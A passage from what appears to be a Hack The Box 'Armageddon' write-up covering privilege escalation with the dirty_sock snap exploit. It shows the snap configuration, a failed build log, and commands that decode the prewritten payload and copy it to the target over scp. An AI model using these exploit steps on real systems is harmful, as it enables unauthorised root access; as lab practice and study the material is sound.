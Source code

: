 ```bash
## Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock
base: core18
```

After some [fumbling around](https://forum.snapcraft.io/t/building-for-core18-multipass-issue/8958/12) trying to get `snapcraft` to work on Kali, I found out that `multipass`, the [default build method](https://snapcraft.io/docs/build-options), creates a VM to build the snap within. For a nested VM, this requires acceleration. You can see from the output below that it fails to create the snap:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ ./build-snap.sh 
Created snap/snapcraft.yaml.
Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.
Launching a VM.
Build environment is in unknown state, cleaning first.
WARNING: cgroup v2 is not fully supported yet, proceeding with partial confinement
info failed: The following errors occurred:
instance "snapcraft-dirty-sock" does not exist
WARNING: cgroup v2 is not fully supported yet, proceeding with partial confinement
launch failed: CPU does not support KVM extensions.                             
An error occurred with the instance when trying to launch with 'multipass': returned exit code 2.
Ensure that 'multipass' is setup correctly and try again.
```

I didn't have a Linux host machine, and didn't want to install snap on my Windows host, so I left this for now. But I'd be interested to go back to it and check if it worked.

## Repurposing the Dirty Sock Payload

As I couldn't get this to work myself, I will resort to using the prewritten script. 
I may return to this and try and create the snap on my host machine using WSL, but for now I will use the premade payload in the dirty sock blog and just create the dirty_sock user.

We use a python script to print the blob used in the dirty_sock source code, and base64 encode this:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ python3 print-snap.py | base64 -d > dirty.snap
```

Then we copy this via ssh to the box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ scp dirty.snap brucetherealadmin@10.10.10.233:/tmp/dirty.snap
```
